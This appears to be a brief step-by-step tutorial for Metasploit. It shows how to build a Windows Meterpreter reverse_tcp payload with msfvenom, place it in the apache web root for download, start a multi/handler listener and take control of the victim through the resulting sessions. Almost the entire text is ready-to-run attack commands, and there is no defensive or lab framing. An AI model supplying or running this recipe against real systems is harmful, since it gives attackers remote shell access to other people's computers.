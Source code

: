 # 1 - Start postgresql server

```
service postgresql start
```

# 2 - Start apache2 server

```
service apache2 start
```

# 3 - Choose and Create msfvenom Payload

```
msfvenom -h
```

```
ifconfig
```

choose one wlan0, eth inet is IP Address

```
msfvenom -p windows/meterpreter/reverse_tcp LPORT=7777 LHOST=192.168.1.100 -f exe -R > /var/www/html/winpayload.exe
```

(or)

```
msfvenom -p windows/meterpreter/reverse_tcp LPORT=7777 LHOST=192.168.1.100 -f exe -o ~/winpayload.exe
```

(or)

```
sudo msfvenom -p windows/meterpreter/reverse_tcp LPORT=7777 LHOST=192.168.1.100 -f exe -o /var/www/html/winpayload.exe
```

(or)

```
cd Desktop
```

```
msfvenom -p windows/meterpreter/reverse_tcp LPORT=7777 LHOST=192.168.1.100 -f exe -o winpayload.exe
```

# 4 - Attack the Target

```
msfconsole
```

```
use exploit/multi/handler
```

```
set payload windows/meterpreter/reverse_tcp
```

```
show options
```

```
set LPORT 7777
```

```
set LHOST 192.168.1.100
```

```
exploit
```

```
help
```

# 5 - Get List of Session

```
sessions
```

Interact with the session by using the `sessions -i <session number>` command. This will allow you to execute commands and interact with the target machine.

```
sessions -i <session number>
```